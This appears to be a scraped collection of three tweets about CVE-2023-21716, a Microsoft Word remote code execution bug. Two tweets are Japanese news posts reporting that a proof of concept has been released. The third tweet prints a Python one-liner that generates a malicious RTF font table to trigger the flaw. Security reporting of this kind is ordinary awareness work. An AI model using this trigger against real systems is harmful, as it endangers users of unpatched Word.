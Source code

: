 
# __kokumoto
**https://twitter.com/__kokumoto/status/1632877236759183360 _at 2023-03-06, 22:54:05_**
<blockquote>
Microsoft Wordにおける遠隔コード実行脆弱性(CVE-2023-21716)の概念実証コード(PoC)が公開された。悪意あるRTF文書を開いた被害者の権限でコード実行が可能。PoCは脆弱性発見者のJoshua Drake氏によるもので、1ツイートに収まる長さまで短縮されている。 https://t.co/yvhbbFM77n
</blockquote>

* https://www.bleepingcomputer.com/news/security/proof-of-concept-released-for-critical-microsoft-word-rce-bug/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# strinsert1Na
**https://twitter.com/strinsert1Na/status/1632746330350325760 _at 2023-03-06, 14:13:54_**
<blockquote>
TL にポコポコ python の one liner が流れてきていたけどあれホンモノの PoC だったんだな。。。

PoC exploit for recently patched Microsoft Word RCE is public (CVE-2023-21716) https://t.co/0BXpxIL1Ax
</blockquote>

* https://www.helpnetsecurity.com/2023/03/06/cve-2023-21716-poc/

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1632711072095387648 _at 2023-03-06, 11:53:48_**
<blockquote>
CVE-2023-21716(Microsoft Word RCE vuln) Python PoC @momika233 

open("t3zt.rtf","wb").write(("{\\rtf1{\n{\\fonttbl" + "".join([ ("{\\f%dA;}\n" % i) for i in range(0,32761) ]) + "}\n{\\rtlch no crash??}\n}}\n").encode('utf-8'))
</blockquote>

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>8</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>356</code></td>
</tr></table>

---